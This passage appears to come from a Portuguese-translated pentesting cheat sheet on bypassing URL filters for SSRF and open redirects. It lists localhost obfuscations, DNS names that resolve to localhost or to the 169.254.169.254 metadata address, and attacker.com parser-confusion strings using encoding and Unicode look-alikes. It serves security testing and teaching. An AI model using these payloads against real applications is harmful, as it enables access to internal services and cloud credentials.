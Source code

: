 ```bash
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```
![](<../../images/image (776).png>)

A **extensão Burp** [**Burp-Encode-IP**](https://github.com/e1abrador/Burp-Encode-IP) implementa contornos de formatação de IP.

### Analisador de Domínio
```bash
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
### Confusão de Domínio
```bash
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
https://{domain}@attacker.com
https://{domain}.attacker.com
https://{domain}%6D@attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
https://attacker.com#{domain}
```